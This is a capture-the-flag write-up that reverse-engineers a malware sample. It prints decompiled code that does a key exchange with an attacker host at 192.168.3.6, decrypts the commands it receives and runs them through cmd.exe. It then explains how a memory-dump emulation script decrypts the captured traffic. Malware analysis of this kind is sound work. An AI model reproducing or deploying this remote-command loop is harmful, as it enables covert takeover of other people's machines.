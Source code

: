 # DoroboH challenge

Description: I found a suspicious process named "araiguma.exe" running on my computer.
Before removing it, I captured my network and dumped the process memory.
Could you investigate what the malware is doing?

Download: https://drive.google.com/file/d/1KeEBMik_Dks4s5ikzDwcpLvFjMjevyyQ/view

## Initial decompilation

I loaded the program into IDA Pro, and got a pretty nice decompilation:
```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  DWORD dwBytes; // [rsp+38h] [rbp-48h] BYREF
  int dwBytes_4; // [rsp+3Ch] [rbp-44h] BYREF
  struct sockaddr name; // [rsp+40h] [rbp-40h] BYREF
  struct WSAData WSAData; // [rsp+50h] [rbp-30h] BYREF
  char buf[4]; // [rsp+1F0h] [rbp+170h] BYREF
  DWORD pdwDataLen; // [rsp+1F4h] [rbp+174h] BYREF
  HCRYPTKEY hKey; // [rsp+1F8h] [rbp+178h] BYREF
  HCRYPTKEY phKey; // [rsp+200h] [rbp+180h] BYREF
  HCRYPTPROV hProv; // [rsp+208h] [rbp+188h] BYREF
  BYTE v13[4]; // [rsp+210h] [rbp+190h] BYREF
  void *v14; // [rsp+218h] [rbp+198h]
  BYTE pbData[4]; // [rsp+220h] [rbp+1A0h] BYREF
  void *v16; // [rsp+228h] [rbp+1A8h]
  LPCSTR lpParameters; // [rsp+238h] [rbp+1B8h]
  BYTE *v18; // [rsp+240h] [rbp+1C0h]
  SOCKET s; // [rsp+248h] [rbp+1C8h]
  BYTE *v20; // [rsp+250h] [rbp+1D0h]
  HANDLE hHeap; // [rsp+258h] [rbp+1D8h]

  _main();
  *(_DWORD *)pbData = 64;
  v16 = &g_P;
  *(_DWORD *)v13 = 64;
  v14 = &g_G;
  hHeap = GetProcessHeap();
  if ( !hHeap )
    return 1;
  if ( !(unsigned int)_IAT_start__(
                        &hProv,
                        0i64,
                        "Microsoft Enhanced DSS and Diffie-Hellman Cryptographic Provider",
                        13i64,
                        -268435456) )
    return 1;
  if ( CryptGenKey(hProv, 0xAA02u, 0x2000041u, &phKey)
    && CryptSetKeyParam(phKey, 0xBu, pbData, 0)
    && CryptSetKeyParam(phKey, 0xCu, v13, 0)
    && CryptSetKeyParam(phKey, 0xEu, 0i64, 0) )
  {
    if ( CryptExportKey(phKey, 0i64, 6u, 0, 0i64, &pdwDataLen) )
    {
      v20 = (BYTE *)HeapAlloc(hHeap, 0, pdwDataLen);
      if ( v20 )
      {
        if ( CryptExportKey(phKey, 0i64, 6u, 0, v20, &pdwDataLen) )
        {
          WSAStartup(2u, &WSAData);
          s = socket(2, 1, 0);
          name.sa_family = 2;
          *(_WORD *)name.sa_data = htons(0x1F90u);
          inet_pton(2, "192.168.3.6", &name.sa_data[2]);
          if ( !connect(s, &name, 16) )
          {
            send(s, (const char *)&pdwDataLen, 4, 0);
            send(s, (const char *)v20, pdwDataLen, 0);
            recv(s, buf, 4, 0);
            v18 = (BYTE *)HeapAlloc(hHeap, 0, *(unsigned int *)buf);
            if ( v18 )
            {
              recv(s, (char *)v18, *(int *)buf, 0);
              if ( CryptImportKey(hProv, v18, *(DWORD *)buf, phKey, 0, &hKey) )
              {
                dwBytes_4 = 26625;
                if ( CryptSetKeyParam(hKey, 7u, (const BYTE *)&dwBytes_4, 0) )
                {
                  memset(v18, 0, *(unsigned int *)buf);
                  while ( recv(s, (char *)&dwBytes, 4, 0) == 4 )
                  {
                    lpParameters = (LPCSTR)HeapAlloc(hHeap, 0, dwBytes);
                    if ( !lpParameters )
                      break;
                    recv(s, (char *)lpParameters, dwBytes, 0);
                    if ( !CryptDecrypt(hKey, 0i64, 1, 0, (BYTE *)lpParameters, &dwBytes) )
                    {
                      HeapFree(hHeap, 0, (LPVOID)lpParameters);
                      break;
                    }
                    ShellExecuteA(0i64, "open", "cmd.exe", lpParameters, 0i64, 0);
                    memset((void *)lpParameters, 0, dwBytes);
                    HeapFree(hHeap, 0, (LPVOID)lpParameters);
                  }
                }
              }
              HeapFree(hHeap, 0, v18);
            }
            closesocket(s);
          }
          WSACleanup();
        }
        HeapFree(hHeap, 0, v20);
      }
    }
    CryptDestroyKey(phKey);
  }
  CryptReleaseContext(hProv, 0);
  return 0;
}
```

I also did a quick look at the other functions and initializers to make sure there wasn't any hidden code, but nothing caught my attention.

The `__IAT_start__` function call is weird and is caused by symbol overlap, it is actually a call to `CryptAcquireContextA`.

This program does some kind of key exchange with the attacker's server (located in LAN, so even if you ran this program nothing terrible should have happened), then receives messages from the attacker, each prefixed with a 4 byte length, decrypts them and executes cmd.exe with the content. The difficulty is presumably decrypting the received messages. The key exchange also uses messages prefixed with 4 byte lengths (one message from the client followed by a reply from the server). The IP of the attacker server is `192.168.3.6`.

My first idea was to maybe extract the key data from memory, but a quick look at the decompilation for `CryptDecrypt` and the Wine source code revealed that this would be rather difficult due to multiple levels of pointer indirection. It was indeed quite difficult, as the author of the task confirmed after the CTF it'd require reverse engineering quite a large part of the crypt provider's internals.

I instead remembered that I have seen a tool that can be used to emulate a minidump, so I decided to try to find it. The tool can be found at https://github.com/mrexodia/dumpulator. The idea is to call the `CryptDecrypt` function in the dump with the packet contents, with the key already present in the dump's memory.

## Dump analysis

We need to find the neccessary function offsets and the address of the `hKey` variable in the dump.

I loaded the dump into IDA Pro, used "Jump to address" to navigate to `0x401550`, defined a function there, and then navigated to the first call site in the araiguma binary from the Stack trace view (which can be opened using Debugger -> Debugger windows). While the imported functions are still unnamed, and this probably could be fixed somehow, it was not a big problem for me as I had the import names in the IDA with the actual binary.

We can see that we are waiting on the innermost `recv` call, after the key exchange has been completed. This means we need to get the `hKey` pointer. Unfortunately, IDA seems not to be able to unroll the stack automatically, or at least I don't know how to make it do that, so double clicking the pointer in the decompiler view does not give the correct address. I instead manually unrolled the stack pointer (all the functions on the stack had bp-frames so the saved rbp pointer was always before the return value for all the relevant functions) and found the key's pointer to be `0xF62E0`. Finding the address of `CryptDecrypt` can be done by just copying the function address from IDA Pro (and it is `0x7FFA9E0BF410`).

## Packet analysis

The pcap can be opened in Wireshark. We use the filter: `ip.addr == 192.168.3.6`, which is the IP of the attacker's server. We can see a single TCP stream, which we can merge using: Analyze -> Follow -> TCP stream. Then I switched the data view mode to Hex Dump.

We know that there will be one client -> server message starting the key exchange and one server -> client message completing the exchange. All server -> client commands afterwards are command invocations. We can copy them into a Python script (I used the C array view option for this) for later decryption.

## The script

Now we can write a Python script using the dumpulator library. The API is rather simple, however it apparently does not support calling functions with more than 4 parameters. However, we can still push values onto the stack, so we can push the extra values onto the stack before calling `CryptDecrypt`. An important fact is that the Microsoft ABI specified that there is a 0x20 shadow space before the arguments begin, so I filled that space with zeros. Otherwise, this script was quite straightforward. There are two packets we extracted from the packet log, the first one is uncommented in the script below and contains the flag, the other one creates a non-important file on the desktop telling the user that they are compromised.

```py
from dumpulator import Dumpulator
import struct

CryptDecrypt = 0x7FFA9E0BF410
hKey = 0xF62E0

pk = bytes([0x8c, 0x28, 0xc2, 0x0d, 0x02, 0x7a, 0xa8, 0xbc, 0x9a, 0x71, 0xb1, 0x07, 0x02, 0x24, 0x21, 0xe9, 0x07, 0x34, 0x0d, 0xe0, 0xf9, 0xa4, 0xc5, 0x40, 0x61, 0x1f, 0x2d, 0x95, 0xb5, 0x60, 0xf8, 0x43, 0x5f, 0xdb, 0x44, 0xec, 0xb3, 0x88, 0x76, 0xdd, 0xab, 0x1f, 0xe3, 0xff, 0xca, 0xf2, 0x6a, 0xeb, 0x65, 0xb7, 0xf7, 0xf4, 0xd1, 0xd0, 0xbc, 0x6c, 0xee, 0xc5, 0x21, 0xc7, 0x7c, 0x27, 0xcd, 0x0f, 0xfb, 0xa4, 0xa9, 0xd0, 0x07, 0x22, 0x8c, 0x47, 0x82, 0x88, 0xb9, 0x06, 0xb6, 0x4d, 0x83, 0x2b, 0xe9, 0x82, 0x2e, 0x12, 0x3e, 0xc4, 0xa5, 0xab, 0xbc, 0x15, 0x5a, 0x24, 0xb6, 0x3a, 0x8c, 0x65, 0x7c, 0x05, 0xff, 0x61, 0x48, 0x12, 0x4f])
#pk = bytes([0x8c, 0x28, 0xc2, 0x0d, 0x02, 0x7a, 0xa8, 0xbc, 0x9a, 0x6b, 0xd4, 0x36, 0x24, 0x0c, 0x1d, 0xf7, 0x3e, 0x27, 0x14, 0xbf, 0xab, 0xae, 0xfb, 0x7d, 0x34, 0x06, 0x35, 0xdf, 0x91, 0x74, 0xe2, 0x47, 0x19, 0xdd, 0x3b, 0xcc, 0xe8, 0x95, 0x72, 0xdd, 0xad, 0x49, 0xac, 0x8c, 0x93, 0xf1, 0x22, 0xaa, 0x61, 0xad, 0xa3, 0xf3, 0xcb, 0x8a, 0xa1, 0x28, 0x8b, 0xab, 0x33, 0x95, 0x71, 0x69, 0xfd, 0x04, 0xc4, 0x82, 0xa7, 0x97, 0x55, 0x6f, 0xf0, 0x67, 0xcc, 0xb2, 0xb0, 0x31, 0xb6, 0x4c, 0x9b, 0x03, 0xe5, 0x86, 0x14, 0x20, 0x15, 0xd5, 0xbf, 0xa6, 0xa1, 0x19, 0x4b, 0x0c, 0xb9, 0x39, 0x83, 0x2c, 0x26, 0x09, 0xf3, 0x18, 0x4f, 0x18])

dp = Dumpulator("araiguma.DMP")

buf_addr = dp.allocate(256+4)
dp.write(buf_addr, pk) # packet data
dp.write(buf_addr+256, struct.pack('<I', len(pk))) # length

dp.push(buf_addr+256) # pointer to length
dp.push(buf_addr) # pointer to data
dp.push(0) # padding required due to Windows ABI
dp.push(0)
dp.push(0)
dp.push(0)
dp.call(CryptDecrypt, [hKey, 0, 1, 0])
decrypted = dp.read(buf_addr, len(pk))
print(decrypted)
```

## Unintended solution

There also was an unintended solution in this task that was did not find, namely that the flag was present in the .DMP file in plaintext as UTF-16. This is probably due to the use of `ShellExecuteA`, which as far as I know first converts the ASCII string to UTF16.
